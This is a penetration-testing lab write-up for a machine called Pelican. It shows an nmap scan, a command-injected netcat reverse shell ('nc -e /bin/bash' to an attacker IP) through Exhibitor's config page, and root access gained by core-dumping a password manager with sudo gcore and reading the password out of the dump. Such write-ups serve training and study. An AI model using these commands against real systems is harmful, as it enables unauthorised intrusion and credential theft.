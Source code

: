 # Pelican

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.98 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:56 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown
```

Ran a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,139,445,631,2181,222,8080,8081 -sC -sV --min-rate 4000 192.168.219.98
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:57 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).

PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
222/tcp  closed rsh-spx
445/tcp  open   netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
8080/tcp open   http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp open   http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.219.98:8080/exhibitor/v1/ui/index.html
```

There's a ZooKeeper software, but there aren't any exploits for it. Port 8081 had an Exhibitor software being used, and there are RCE exploits for this:

```
$ searchsploit exhibitor
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution             | java/webapps/48654.txt
----------------------------------------------------------- ---------------------------------
```

### Exhibitor RCE

The Exhibitor RCE is rather simple, and the Config tab looks rather vulnerable.&#x20;

<figure><img src="../../../.gitbook/assets/image (23) (9).png" alt=""><figcaption></figcaption></figure>

The `java.env` script part seems to be running `bash`. I downloaded the exploit found from `searchsploit`, and attempted their POC:

```
$(nc -e /bin/bash 192.168.45.182 4444)
```

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, committing the changes would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Gcore --> Root Creds

The current user has some `sudo` privileges:

```
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

`gcore` is a program that is used to create core dumps of running processes, and since we can use `sudo` with it, we essentially can create these dumps of any processes. As such, let's enumerate what `root` is running:

```
charles@pelican:/opt/zookeeper$ ps -ef | grep root
<TRUNCATED>
root       510   459  0 22:53 ?        00:00:00 /bin/sh -c while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
avahi      522   456  0 22:53 ?        00:00:00 avahi-daemon: chroot helper
root       527     1  0 22:53 ?        00:00:00 /usr/bin/password-store
<TRUNCATED>
```

There's a `password-store` binary being run, which is essentially a password manager. We can create a core dump for this process:

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 527
0x00007f31c88806f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fffe1091db0, remaining=remaining@entry=0x7fffe1091db0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.527
```

We can then use `strings` on the core dump file to find a password:

```
charles@pelican:/opt/zookeeper$ strings core.527
<TRUNCATED>
001 Password: root:
ClogKingpinInning731
x86_64
/usr/bin/password-store
<TRUNCATED>
```

Using this password, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>
